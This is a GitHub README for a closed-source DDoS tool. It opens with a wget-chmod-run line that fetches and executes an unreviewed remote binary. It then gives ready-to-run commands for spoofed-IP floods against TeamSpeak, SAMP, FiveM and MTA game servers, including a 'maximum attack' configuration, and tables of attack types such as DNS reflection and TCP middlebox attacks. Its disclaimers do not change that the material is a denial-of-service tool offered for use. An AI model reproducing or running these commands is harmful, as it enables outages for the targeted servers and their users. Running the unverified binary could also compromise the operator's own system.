 # ovh-ddos - Advanced Network Flood Tool

&#x20;
## 📌 Requirements
- Spoofing Server
## 🚀 Overview

ovh-ddos is a powerful network testing tool designed for stress-testing various online services. It provides multiple attack vectors, allowing researchers to analyze network resilience against different types of traffic floods.

⚠️ **Disclaimer**: This tool is intended for educational and security research purposes only. Unauthorized usage against systems you do not own is illegal and strictly prohibited.

## 🔧 Installation

```bash
# Download the precompiled binary
wget https://raw.githubusercontent.com/ivanivek/ovh-ddos/refs/heads/main/ovh-ddos
chmod +x ovh-ddos ; ./ovh-ddos
```

## 📌 Usage

```bash
./ovh-ddos -i <interface> -h <host> [action] [options]
```

### 🎯 Example Usage

#### TeamSpeak Flood
```bash
./ovh-ddos -T -h ipadress -p teamspeakport -s sourceip -j pps -m thread -i interface
```

#### Maximum TeamSpeak Attack
```bash
./ovh-ddos -T -h ip -p 9987 -s random -j 800000000 -m 32 -i eth0
```

*The maximum attack configuration applies to all attack types and options for peak efficiency.*

#### SAMP Flood
```bash
./ovh-ddos -F -h ipadress -p sampport -s sourceip -j pps -m thread -i interface
```

#### FiveM Flood
```bash
./ovh-ddos -B -h ipadress -p 30120 -s sourceip -j pps -m thread -i interface
```

#### MTA Flood
```bash
./ovh-ddos -Q -h ipadress -p mtaport -s sourceip -j pps -m thread -i interface
```

## 🛠 Attack Types

| Action | Description                        |
| ------ | ---------------------------------- |
| `-T`   | TeamSpeak Flood (Verified packets) |
| `-B`   | FIVEM Flood (Partial validation)   |
| `-G`   | Growtopia/GTPS Flood               |
| `-L`   | TCP Middleboxes Attack             |
| `-F`   | SAMP Flood (Requires hexl.txt)     |
| `-Q`   | MTA Flood                          |
| `-W`   | DNS Reflection                     |

## ⚙️ Options

| Option           | Description                          |
| ---------------- | ------------------------------------ |
| `-i [interface]` | Specify network interface (Required) |
| `-h [host]`      | Target host(s)                       |
| `-p [port]`      | Target port (Default: Random)        |
| `-s [ip]`        | IP spoofing (CIDR supported, use `-s spoofing` for random source IPs) |
| `-j [pps]`       | Packets per second limit             |
| `-m [threads]`   | Number of threads (Default: 1)       |
| `-t [time]`      | Attack duration in seconds           |
| `--help`         | Show usage help                      |

## 🔥 Future Updates

If this project reaches **10+ GitHub stars**, new attack types will be added, including:

- **RAGE-MP Flood** (Targeting multiplayer game servers)
- **Rust Game Flood** (Packet stress testing for Rust servers)
- **More attack vectors** for testing various online services!

If this project reaches **50+ GitHub stars**, the **source code** will be made publicly available!

## ⚖️ Legal Disclaimer

This tool should only be used for testing and educational purposes on systems you have explicit permission to assess. The author is not responsible for any misuse of this software.

## 📜 License

This project is closed-source and proprietary. Redistribution, modification, or reverse engineering of the binary is strictly prohibited. Unauthorized use is not permitted.

